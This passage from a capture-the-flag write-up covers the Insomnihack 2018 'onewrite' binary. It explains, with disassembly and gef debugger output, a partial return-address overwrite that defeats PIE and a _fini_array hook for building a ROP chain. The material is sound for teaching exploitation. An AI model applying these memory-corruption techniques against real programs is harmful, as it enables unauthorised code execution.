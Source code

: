 ```
        00108aff e8 5c 84        CALL       puts                                             int puts(char * __s)
                 00 00
        00108b04 e8 0c ff        CALL       do_leak                                          undefined do_leak()
                 ff ff
        00108b09 90              NOP
        00108b0a 48 83 c4 08     ADD        RSP,0x8
```

What we can do here is a partial overwrite. That is where we only overwrite only a part of the saved return instruction. Because PIE works by addressing all instructions to an address and adding that to whatever the base instruction is, we can overwrite the last byte of the instruction address which will let us jump within a certain range around the original address, without having to use an infoleak or brute force the address. This can work since most of the time the base address for PIE ends in a null byte (which we can see here):

```
gef➤  vmmap
Start              End                Offset             Perm Path
0x00007f6814bbb000 0x00007f6814c69000 0x0000000000000000 r-x /Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite
0x00007f6814e68000 0x00007f6814e6f000 0x00000000000ad000 rw- /Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite
0x00007f6814e6f000 0x00007f6814e70000 0x0000000000000000 rw-
0x00007f68152da000 0x00007f68152fd000 0x0000000000000000 rw- [heap]
0x00007ffe8c117000 0x00007ffe8c138000 0x0000000000000000 rw- [stack]
0x00007ffe8c1ee000 0x00007ffe8c1f1000 0x0000000000000000 r-- [vvar]
0x00007ffe8c1f1000 0x00007ffe8c1f2000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

So we will overwrite the least significant byte of the return address to be `0x04` in stead of `0x09`. This way it will point to the `CALL       do_leak ` instruction, so when it returns it will call `do_leak` again and we can choose the `PIE` infoleak. With that, we will have both a stack and a PIE infoleak.


#### Fini array / Writing ROP Chain

So we are able to call `do_leak` again, however it takes our QWORD write each time we do it, so past the initial infoleaks it doesn't serve much of a purpose past that. We will write a hook to the `_fini_array` table, that contains a list of functions which will be called when the program ends. That way we can have the program call `do_overwrite` when it exits. Also since after a function is ran, it moves on to the next entry, we will need to write at least two entries for the `do_overwrite` address to the `_fini_array`. We can see that it is `0x10` bytes large, which will work for this:

```
gef➤  info files
Symbols from "/Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite".
Native process:
  Using the running image of child process 6946.
  While running this, GDB does not access memory from...
Local exec file:
  `/Hackery/pod/modules/stack_pivot/insomnihack18_onewrite/onewrite', file type elf64-x86-64.
  Entry point: 0x7ffff7d528b0
  0x00007ffff7d4a200 - 0x00007ffff7d4a220 is .note.ABI-tag
  0x00007ffff7d4a220 - 0x00007ffff7d4a23c is .gnu.hash
  0x00007ffff7d4a240 - 0x00007ffff7d4a258 is .dynsym
  0x00007ffff7d4a258 - 0x00007ffff7d4a259 is .dynstr
  0x00007ffff7d4a260 - 0x00007ffff7d51e38 is .rela.dyn
  0x00007ffff7d51e38 - 0x00007ffff7d52060 is .rela.plt
  0x00007ffff7d52060 - 0x00007ffff7d52077 is .init
  0x00007ffff7d52080 - 0x00007ffff7d52280 is .plt
  0x00007ffff7d52280 - 0x00007ffff7d522e0 is .plt.got
  0x00007ffff7d522e0 - 0x00007ffff7dd11a0 is .text
```